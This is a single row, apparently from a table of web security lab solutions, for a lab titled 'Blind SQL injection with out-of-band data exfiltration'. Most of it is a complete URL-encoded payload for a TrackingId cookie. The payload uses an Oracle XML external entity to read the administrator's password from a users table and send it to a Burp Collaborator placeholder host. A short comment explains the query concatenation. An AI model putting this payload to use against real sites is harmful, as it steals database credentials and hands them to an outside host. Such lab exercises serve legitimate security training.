 |40    |Blind SQL injection with out-of-band data exfiltration                                                                   |TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'&#124;&#124;(SELECT+password+FROM+users+WHERE+username%3d'administrator')&#124;&#124;'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |Combines the above OOB payload with another SQL query SELECT+password+FROM+users+WHERE+username%3d'administrator' Note the concatenation to include both  statements in the one query. Remember to replace the collaborator domain.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |Practitioner, SQLi                          |